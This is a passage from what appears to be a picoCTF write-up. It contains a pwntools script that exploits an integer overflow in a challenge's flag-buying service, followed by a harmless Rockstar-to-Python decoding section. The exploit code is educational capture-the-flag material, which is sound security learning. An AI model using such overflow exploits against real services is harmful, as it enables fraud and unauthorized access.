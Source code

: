 So, we need to loop through this bug a couple of times.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.log_level = 'error'

r = remote('jupiter.challenges.picoctf.org', 9745)

def buy_flags():
  r.sendline('2')
  r.sendline('1')
  r.sendline('2147483647')
  r.recvuntil('transaction: ')
  money = int(r.recvline().strip().decode())
  if money < 100000:
    print(f'Not enough money: [{money}]')
  else:
    print(f'$$$$$$')
    r.sendline('2')
    r.sendline('2')
    r.sendline('1')
    r.recvuntil('YOUR FLAG IS: ')
    print(f'Flag --> {r.recvline().strip().decode()}')
    exit()

while 1:
  buy_flags()
```

```bash
Not enough money: [97400]
Not enough money: [98300]
Not enough money: [99200]
$$$$$$
Flag --> picoCTF{XXX}
```

### 1_wanna_b3_a_r0ck5tar

Another `guess the cipher` challenge here. Like `mus1c`, we should convert this thing with [Rockstar](https://codewithrockstar.com/online). Well, this time it's not that easy. So, we will install this [script](pip install rockstar-py) with `pip install rockstar-py`. 

So, we run the script and read the output:

```bash
➜  General-Skills git:(main) ✗ /home/w3th4nds/.local/bin/rockstar-py -i lyrics.txt -o disgusting.py
➜  General-Skills git:(main) ✗ cat disgusting.py 
Rocknroll = True
Silence = False
a_guitar = 10
Tommy = 44
Music = 170
the_music = input()
if the_music == a_guitar:
    print("Keep on rocking!")
    the_rhythm = input()
    if the_rhythm - Music == False:
        Tommy = 66
        print(Tommy!)
        Music = 79
        Jamming = 78
        print(Music!)
        print(Jamming!)
```